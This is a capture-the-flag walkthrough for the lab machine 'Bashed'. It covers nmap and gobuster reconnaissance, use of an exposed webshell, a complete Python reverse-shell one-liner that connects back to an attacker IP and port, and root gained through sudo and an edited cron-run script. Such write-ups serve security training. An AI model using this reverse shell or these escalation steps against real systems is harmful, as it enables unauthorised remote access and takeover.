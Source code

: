 ## Bashed

Difficulty: Easy

### User Flag

```
nmap 10.10.10.68
```

![nmap](https://user-images.githubusercontent.com/58514930/218465789-3197e551-555c-4c64-9c28-98560885cde1.png)

<br>

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirb/big.txt -t 30
```

![gobuster](https://user-images.githubusercontent.com/58514930/218464821-1318b725-b6ef-463b-8f7d-7e77cbc39292.png)

<br>

Browsing through the discovered directories we find a webshell that can be used to get the user flag.

![userFlag](https://user-images.githubusercontent.com/58514930/218466535-5d2539b2-0f42-45fd-ae3e-95a18ba3a80f.png)

### Root Flag

First we get a reverse shell with python.

```
export RHOST="10.10.14.2";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

> Here we can also get a reverse shell creating a .php file inside /uploads directory.

<br>

Doing some enumeration with sudo -l we see that our user can execute any command as the user scriptmanager.

```
sudo -u scriptmanager /bin/sh -i
```

![scriptManager](https://user-images.githubusercontent.com/58514930/218467220-1cf59608-cb70-4140-af03-b84b0f009aa5.png)

<br>

Edit the file /scripts/test.py with a python reverse shell and get the root user.

![editingTest](https://user-images.githubusercontent.com/58514930/218468385-e241e438-3302-4754-9f7a-70492c51378e.png)

![rootFlag](https://user-images.githubusercontent.com/58514930/218468746-e360118f-6a45-4e06-ba56-a16052f27816.png)


